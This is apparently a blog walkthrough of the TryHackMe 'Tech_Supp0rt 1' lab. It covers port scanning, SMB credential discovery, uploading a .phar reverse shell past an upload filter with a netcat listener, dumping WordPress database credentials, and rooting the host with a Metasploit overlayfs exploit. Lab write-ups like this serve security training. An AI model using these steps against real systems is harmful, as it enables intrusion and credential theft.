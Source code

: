 ```yaml
---
layout: post
title: Walkthrough - Tech_Supp0rt 1
published: true
---
```


RCE, File Upload, sudo, custom. Hacking into a scammer's under-development website to foil their plans.

[https://tryhackme.com/room/techsupp0rt1](https://tryhackme.com/room/techsupp0rt1)

* * *

## Notes

- ``sudo nmap -sC -sV -sT -O -p22,80,139,445 10.10.65.37``

```
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 10:8a:f5:72:d7:f9:7e:14:a5:c5:4f:9e:97:8b:3d:58 (RSA)
|   256 7f:10:f5:57:41:3c:71:db:b5:5b:db:75:c9:76:30:5c (ECDSA)
|_  256 6b:4c:23:50:6f:36:00:7c:a6:7c:11:73:c1:a8:60:0c (ED25519)
80/tcp  open  http        Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Apache2 Ubuntu Default Page: It works
|_http-server-header: Apache/2.4.18 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.3.11-Ubuntu (workgroup: WORKGROUP)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X
OS CPE: cpe:/o:linux:linux_kernel:3.2.0
OS details: Linux 3.2.0
Network Distance: 4 hops
Service Info: Host: TECHSUPPORT; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2022-08-07T20:57:51
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.3.11-Ubuntu)
|   Computer name: techsupport
|   NetBIOS computer name: TECHSUPPORT\x00
|   Domain name: \x00
|   FQDN: techsupport
|_  System time: 2022-08-08T02:27:51+05:30
|_clock-skew: mean: -1h50m00s, deviation: 3h10m30s, median: -1s
```

We find a few directories with gobuster ``/test``, which is the site the scammer points their victims to, and a ``/wordpress`` site.

- ``smbclient -L`` and checking ``websvr`` we find ``enter.txt`` with some creds

```
GOALS
=====
1)Make fake popup and host it online on Digital Ocean server
2)Fix subrion site, /subrion doesn't work, edit from panel
3)Edit wordpress website

IMP
===
Subrion creds
|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]
Wordpress creds
|->
```

It is missing the wordpress creds though.

Checking ``/wp-login.php`` and the blog posts on the website we find a username ``support``

lets check out /subrion

- ``gobuster dir -u http://10.10.249.90/subrion -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -x txt,php -t 100 --no-error -b 301,302,404``

- end up finding the panel @ ``http://techsupport.thm/subrion/panel.php`` but we have to get the magical formula for the password. I am assuming this is "cooked" with cyberchef

![](/assets/techsupp0rt1-01.png)

- now we have creds ``admin:Scam2021``
- nagivate to uploads and upload a revshell. since .htaccess disallowes certain file extensions we are using a pentestmoney php rev shell that has the ``.phar`` file extension.
- one uploaded visit ``http://techsupport.thm/subrion/uploads/shell.phar`` after setting up listener ``rlwrap nc -lvnp 6666``

- found some things running linpeas.sh

```
╔══════════╣ Analyzing Wordpress Files (limit 70)
-rwxr-xr-x 1 www-data www-data 2992 May 29  2021 /var/www/html/wordpress/wp-config.php                                                                                     
define( 'DB_NAME', 'wpdb' );
define( 'DB_USER', 'support' );
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
define( 'DB_HOST', 'localhost' );
```

```
#   Name                                                                Potentially Vulnerable?  Check Result
 -   ----                                                                -----------------------  ------------
 1   exploit/linux/local/bpf_sign_extension_priv_esc                     Yes                      The target appears to be vulnerable.
 2   exploit/linux/local/cve_2021_3493_overlayfs                         Yes                      The target appears to be vulnerable.
 3   exploit/linux/local/cve_2021_4034_pwnkit_lpe_pkexec                 Yes                      The target is vulnerable.
 4   exploit/linux/local/cve_2022_0995_watch_queue                       Yes                      The target appears to be vulnerable.
 5   exploit/linux/local/glibc_realpath_priv_esc                         Yes                      The target appears to be vulnerable.
 6   exploit/linux/local/pkexec                                          Yes                      The service is running, but could not be validated.
 7   exploit/linux/local/ptrace_traceme_pkexec_helper                    Yes                      The target appears to be vulnerable.
 8   exploit/linux/local/su_login                                        Yes                      The target appears to be vulnerable.
 9   exploit/linux/local/sudo_baron_samedit                              Yes                      The target appears to be vulnerable. sudo 1.8.16 is a vulnerable build.
```


* * * 

## What is the root flag?

- ``linux/local/cve_2021_3493_overlayfs`` in msfconsole and cat root.txt

* * * 

